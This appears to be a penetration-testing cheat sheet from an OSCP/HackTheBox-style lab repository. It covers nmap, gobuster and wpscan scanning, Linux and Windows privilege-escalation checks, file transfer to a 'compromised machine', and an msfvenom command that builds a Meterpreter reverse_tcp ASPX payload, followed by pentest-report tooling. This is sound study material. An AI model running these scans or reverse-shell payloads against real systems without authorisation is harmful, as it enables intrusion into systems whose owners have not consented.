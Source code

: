 # Scanning

#### Nmap
The following is a list of .nse scrips and cheat sheets for nmap
```
$ nmap -sC -sV -oA nmap/OUTPUT 10.10.10.125
```
The following syntax is used for vulnerability scans within nmap
```
$ nmap --script vuln -oA nmap/OUTPUT 10.10.10.125
$ nmap --script http-enum --script-args http-enum.fingerprintfile=./myfingerprints.txt -p80 <target>  
```
#### Gobuster
Directory busting with gobuster
```
$ sudo gobuster dir -u http://10.10.10.68 -w ~/red-team/wordlists/directory-list-2.3-medium.txt
```
#### WordPress
The following tool will scan a wordpress site for known vulnerabilities and configuration items:
```
$ sudo wpscan --url https://example.com --disable-tls-checks
```
#### Manual Tricks
If 443 is open check the certificate for alternative Virtual hosts that the cert may work on.
If you find that the certificate is good for multiple subdomains/virtual hosts add them to your host file with the following command.
```
$ vi /etc/hosts

127.0.0.1         localhost
127.0.0.2         kali
10.10.10.123      www.example.com
```
# Privilege Escalation

### Windows
First lets check system info with the folloing commands.
```
C:\Users\user\Desktop> systeminfo
```
msf exploit checker:
```
msf exploit > use post/multi/recon/local_exploit_suggester
msf exploit > set SESSION 1
msf exploit > run
```
### Linux
- [GTFOBins](https://gtfobins.github.io/) is a fantastic resource for priviledge escolation within Linux.
First steps to go from low-privilege user to root on a linux box.
```
joanna@openadmin:~$ sudo -l                     
Matching Defaults entries for joanna on openadmin:                              
  env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\
  :/bin\:/snap/bin 
  
User joanna may run the following commands on openadmin:                         
  (ALL) NOPASSWD: /bin/nano /opt/priv                                 
  joanna@openadmin:~$ 
```
Look at what the user can sudo and try to escalation from their. 
After testing what the user can do, look to see what is running as root.
```
joanna@openadmin:~$ find / -perm -u=s -type f 2>/dev/null   
/usr/lib/openssh/ssh-keysign     
/usr/lib/eject/dmcrypt-get-device 
/usr/lib/snapd/snap-confine       
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic  
/usr/lib/dbus-1.0/dbus-daemon-launch-helper    
/usr/lib/policykit-1/polkit-agent-helper-1    
/usr/bin/newgrp                              
/usr/bin/pkexec         
/usr/bin/newgidmap      
/usr/bin/sudo   
/usr/bin/passwd  
/usr/bin/newuidmap
/usr/bin/chsh      
/usr/bin/traceroute6.iputils 
/usr/bin/chfn           
/usr/bin/gpasswd      
/usr/bin/at  
/bin/ping      
/bin/umount     
/bin/su        
/bin/mount     
/bin/fusermount
joanna@openadmin:~$
```

We can try and get a root shell if a service is running as root, i.e. apache. Start a python http server to transfer files to the 
compromised machine. Note that this command will host files in your current directory, so make sure you copy all files before running
the python SimpleHTTPServer.
```
$ sudo python -m SimpleHTTPServer 8888
```
# Meterpreter
Use the following to created a meterpreter shell for reverse_tcp for Windows
```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.40 LPORT=4444 -f aspx -o exploit.aspx

msf > use exploit/multi/handler
msf > set payload windows/meterpreter/reverse_tcp
```
# Pen Test Report
#### Requirements

- [Pandoc](https://pandoc.org/installing.html)
```
sudo apt-get install pandoc
```
- LaTeX (eg. [TeX Live](http://mirror.ctan.org/systems/texlive/tlnet/install-tl-unx.tar.gz)) in order to get `pdflatex` or `xelatex`
```
cd /your/unpacked/directory
perl install-tl  # install-tl-windows on Windows
[... messages omitted ...]
Enter command: i
[... when done, see below for post-install ...]
```
Post-install: setting PATH variable
```
PATH=/usr/local/texlive/2019/bin/x86_64-linux:$PATH
```
- [Eisvogel Pandoc LaTeX PDF Template](https://github.com/Wandmalfarbe/pandoc-latex-template#installation)
```
pandoc PENTEST_REPORT.md \
-o OSCP-OS-XXXXX-Lab-Report.pdf \
--from markdown+yaml_metadata_block+raw_html \
--template eisvogel \
--table-of-contents \
--toc-depth 6 \
--number-sections \
--top-level-division=chapter \
--highlight-style breezedark
```
